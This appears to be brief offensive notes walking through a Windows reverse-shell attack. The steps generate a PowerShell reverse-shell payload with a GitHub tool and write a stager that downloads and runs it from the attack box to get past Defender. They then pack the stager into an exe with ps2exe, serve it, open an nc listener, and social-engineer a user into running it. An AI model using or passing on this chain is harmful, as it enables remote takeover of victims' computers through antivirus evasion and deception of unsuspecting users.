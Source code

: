 Reverse shell code.
>git clone https://github.com/gh0x0st/Get-ReverseShell.git

Open powershell
>pwsh 
import-module ./get-reverseshell.ps1
Get-ReverseShell -ip x.x.x.x -Port xxxx

Copy the generated code.

>nano payload.ps1

paste in code and save

But Defender will still pick up this script as malicious. 
So we will create a second script and turn it into a exe that will download our payload.

>scripturl = "http://<ip address of attack box>/payload.ps1"


>scriptbytes = Invoke-WebRequest -Uri $scripturl -UseBasicParsing -method Get -MaximumRedirection 0

>scriptcontent = [System.Text.Encoding]::UTF8.GetString($scriptbytes.content)

>Invoke-Expression -Command $scriptcontent

Create exe from powershell. 
This must be done in a windows machine.
>Install-Module -Name ps2exe

>win-ps2exe

Fill in GUI form and save exe.
Copy exe back to Kali
Upload exe to target.
>python -m http.server

Create a listner.
>nc -nvlp <portnumber>

Social Engineer a user into running the exe.
